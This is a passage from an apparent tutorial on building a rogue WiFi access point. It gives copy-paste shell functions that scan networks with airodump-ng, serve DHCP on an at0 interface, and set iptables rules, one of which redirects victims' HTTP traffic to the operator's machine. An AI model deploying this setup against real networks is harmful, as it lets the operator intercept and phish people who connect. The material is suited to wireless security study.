 Once we place the WiFi adapter in monitor mode, we will need to see what the BSSID (MAC Address) and ESSID (SSID) of everything in the air.

{% highlight ruby %}
function dump ()
{
sudo airodump-ng $wifi;
}
{% endhighlight %}

Now we need to create a new adapter to tunnel out traffic to and we need to include a series of firewall rules to redirect our traffic. Explaining these rules will require an entire tutorial series on their own. For now, just copy and paste them

Note: The environment variable will not pass in the destination argument. Replace 192.168.1.4 with your own IP.

{% highlight ruby %}
function route ()
{
#sudo ifconfig $wifi txpower $wpower;
#WARNING! The above line is commented out. It increases the power hence signal strength I have not tested this in a virtual machine because I do not know the risk. You should not either!!
#I am not liable if you decide to go above the legal limit.

sudo cp /etc/dhcp/dhcpd.et.conf /etc/dhcp/dhcpd.conf;
sudo ifconfig at0 up;
sudo ifconfig at0 192.168.2.1 netmask 255.255.255.0;
sudo dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0;
#sudo systemctl restart isc-dhcp-server;

sudo iptables --table nat --append POSTROUTING --out-interface $adp -j MASQUERADE;

sudo iptables --append FORWARD --in-interface at0 -j ACCEPT;

sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.4:80;

sudo iptables -t nat -A POSTROUTING -j MASQUERADE;
}
{% endhighlight %}

Add the option to erase the iptables firewall rules when complete.

{% highlight ruby %}
function iptables_flush ()
{
# flush all chains
sudo iptables -F;
sudo iptables -t nat -F;
sudo iptables -t mangle -F;
# delete all chains
sudo iptables -X;
}
{% endhighlight %}
